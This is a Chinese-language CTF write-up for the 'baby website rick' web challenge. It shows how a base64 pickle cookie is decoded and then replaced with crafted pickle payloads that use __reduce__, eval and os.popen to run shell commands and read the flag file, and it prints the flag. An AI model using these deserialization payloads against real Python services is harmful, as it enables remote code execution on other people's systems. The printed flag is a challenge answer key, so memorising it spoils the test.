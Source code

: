 # baby website rick

:::note CHALLENGE DESCRIPTION

Difficulty: EASY

Look Morty, look! I turned myself into a website Morty, I'm Website Rick babyyy!! But don't play around with some of them anti pickle serum I have stored somewhere safe, if I turn back to a human I'll have to go to family therapy and we don't want that Morty.

看啊莫蒂，快看！我把自己变成网站了莫蒂，我是网站瑞克宝宝版！！不过别乱动我藏在某处安全位置的那些反泡菜血清，要是我变回人类就得参加家庭心理治疗，我们可不想那样莫蒂。

:::

直接访问服务

![img](img/image_20250359-185907.png)

```plaintext
Don't play around with this serum morty!! <__main__.anti_pickle_serum object at 0x7f8b5b7ef7d0>
```

这个 `__main__.anti_pickle_serum` 一看就是 python 的对象

经过排查，发现 Cookie 存在问题

![img](img/image_20250304-190438.png)

```plaintext
KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu
```

对这个 `plan_b` 进行分析，得到

```python
>>> import base64
>>> a1=base64.b64decode("KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu")
>>> a1
b"(dp0\nS'serum'\np1\nccopy_reg\n_reconstructor\np2\n(c__main__\nanti_pickle_serum\np3\nc__builtin__\nobject\np4\nNtp5\nRp6\ns."
```

上 `pickletools` 进行分析

```python
import base64
import pickle
import pickletools

data = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu"
data = base64.b64decode(data)

print(data)

# 反汇编 pickle 字节码
pickletools.dis(data)
```

得到

```plaintext
b"(dp0\nS'serum'\np1\nccopy_reg\n_reconstructor\np2\n(c__main__\nanti_pickle_serum\np3\nc__builtin__\nobject\np4\nNtp5\nRp6\ns."
    0: (    MARK
    1: d        DICT       (MARK at 0)
    2: p    PUT        0
    5: S    STRING     'serum'
   14: p    PUT        1
   17: c    GLOBAL     'copy_reg _reconstructor'
   42: p    PUT        2
   45: (    MARK
   46: c        GLOBAL     '__main__ anti_pickle_serum'
   74: p        PUT        3
   77: c        GLOBAL     '__builtin__ object'
   97: p        PUT        4
  100: N        NONE
  101: t        TUPLE      (MARK at 45)
  102: p    PUT        5
  105: R    REDUCE
  106: p    PUT        6
  109: s    SETITEM
  110: .    STOP
highest protocol among opcodes = 0
```

尝试执行，会发现存在报错

```python
import base64
import pickle

data = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu"
data = base64.b64decode(data)

a = pickle.loads(data)

# Traceback (most recent call last):
#   File "d:\_Code\test\test-9.py", line 7, in <module>
#     a = pickle.loads(data)
#         ^^^^^^^^^^^^^^^^^^
# AttributeError: Can't get attribute'anti_pickle_serum'on <module'__main__'from'd:\\_Code\\test\\test-9.py'>
```

根据报错信息，添加一个 `anti_pickle_serum` 变量

```python
import base64
import pickle

anti_pickle_serum = ""

data = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu"
data = base64.b64decode(data)

a = pickle.loads(data)

# Traceback (most recent call last):
#   File "d:\_Code\test\test-9.py", line 9, in <module>
#     a = pickle.loads(data)
#         ^^^^^^^^^^^^^^^^^^
#   File "C:\Users\Randark\AppData\Local\Programs\Python\Python311\Lib\copyreg.py", line 49, in _reconstructor
#     obj = object.__new__(cls)
#           ^^^^^^^^^^^^^^^^^^^
# TypeError: object.__new__(X): X is not a type object (str)
```

根据报错信息，可以确定 `anti_pickle_serum` 应该是一个类

```python
import base64
import pickle


class anti_pickle_serum:
    def __init__(self):
        pass


data = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu"
data = base64.b64decode(data)

a = pickle.loads(data)

print(dir(a))

print(a)

# ['__class__', '__class_getitem__', '__contains__', '__delattr__', '__delitem__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__ior__', '__iter__', '__le__', '__len__', '__lt__', '__ne__', '__new__', '__or__', '__reduce__', '__reduce_ex__', '__repr__', '__reversed__', '__ror__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', 'clear', 'copy', 'fromkeys', 'get', 'items', 'keys', 'pop', 'popitem', 'setdefault', 'update', 'values']
# {'serum': <__main__.anti_pickle_serum object at 0x000001E388AAF7D0>}
```

这一次运行就没有问题了，可以十分确定是 pickle 反序列化实现 RCE 了，并且这个序列化对象为一个 dict

尝试 pickle 工作流程

```python
from base64 import b64encode
import pickle

data = b64encode(pickle.dumps({"serum": "randark"}, protocol=0))

print(data)


# KGRwMApWc2VydW0KcDEKVnJhbmRhcmsKcDIKcy4=
```

成功显示了文本

![img](img/image_20250337-193741.png)

进一步测试，尝试命令执行

```python
from base64 import b64encode
import pickle


class anti_pickle_serum:
    def __reduce__(self):
        return (eval, ("7+7",))


payload = b64encode(pickle.dumps({"serum": anti_pickle_serum()}, protocol=0))

print(payload)

# KGRwMApWc2VydW0KcDEKY19fYnVpbHRpbl9fCmV2YWwKcDIKKFY3KzcKcDMKdHA0ClJwNQpzLg==
```

![img](img/image_20250340-194024.png)

那么就可以尝试命令执行了

```python
from base64 import b64encode
import pickle


class anti_pickle_serum:
    def __init__(self):
        self.command = "ls"

    def __reduce__(self):
        return (eval, (f'__import__("os").popen("{self.command}").read()',))


payload = b64encode(pickle.dumps({"serum": anti_pickle_serum()}, protocol=0))

print(payload)

# KGRwMApWc2VydW0KcDEKY19fYnVpbHRpbl9fCmV2YWwKcDIKKFZfX2ltcG9ydF9fKCJvcyIpLnBvcGVuKCJscyIpLnJlYWQoKQpwMwp0cDQKUnA1CnMu
```

得到

![img](img/image_20250343-194306.png)

已经看到 flag 文件了，可以直接读取到 flag 数据了

```python
from base64 import b64encode
import pickle


class anti_pickle_serum:
    def __init__(self):
        self.command = "cat flag_wIp1b"

    def __reduce__(self):
        return (eval, (f'__import__("os").popen("{self.command}").read()',))


payload = b64encode(pickle.dumps({"serum": anti_pickle_serum()}, protocol=0))

print(payload)

# KGRwMApWc2VydW0KcDEKY19fYnVpbHRpbl9fCmV2YWwKcDIKKFZfX2ltcG9ydF9fKCJvcyIpLnBvcGVuKCJjYXQgZmxhZ193SXAxYiIpLnJlYWQoKQpwMwp0cDQKUnA1CnMu
```

![img](img/image_20250344-194405.png)

```flag
HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}
```
